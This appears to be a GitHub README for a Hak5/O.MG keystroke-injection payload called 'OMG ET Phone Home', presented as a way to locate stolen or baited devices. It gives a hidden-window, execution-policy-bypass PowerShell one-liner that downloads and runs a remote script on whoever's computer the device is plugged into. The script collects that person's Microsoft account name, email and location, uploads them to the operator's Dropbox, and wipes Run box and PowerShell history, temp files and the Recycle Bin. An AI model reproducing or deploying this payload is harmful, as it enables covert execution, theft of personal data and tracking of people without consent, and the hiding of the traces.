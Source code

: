 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG ET Phone Home

A script I put together to locate your stolen devices, or your "stolen" baited devices

## Description

This program is meant to locate your devices. Save the execution file on the boot partition of your devices and when someone plugs it into their computer
Using a one liner in the run box a script will be downloaded and executed that grabs the Name and email of the associated microsoft account and the 
latitude and longitude of where the device was activated. This information is stored in a text document that is then uploaded to your dropbox. 
Finally the end of the script will delete the runbox and powershell history and delete the files in the TMP Folder and Recycle Bin. 

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 7,10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Your device is plugged into the targets computer
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory if your intended wifi network is not detected with the
  geofencing options
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The OMG device will attempt to detect the Wifi Access point you designated, if it does not.. 
* A one liner in the run box will download and execute the ET-Phone-Home Script 
* This script will get the Name and Email associated with the microsoft account of the persons computer your device connected to 
* The latitude and longitude of where the device was when it was activated will also be collected 
* This gathered information will be saved to a text file in the TMP Directory 
* That file will be uploaded to your DropBox cloud storage 

Something Like What you see below will be in your cloud storage:

NAME

EMAIL 

LATITUDE AND LONGITUDE

```
Jakoby

jakoby@example.com

 Latitude  Longitude
 --------  ---------
37.778919 -122.416313
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Kalani


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-ET-Phone-Home)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
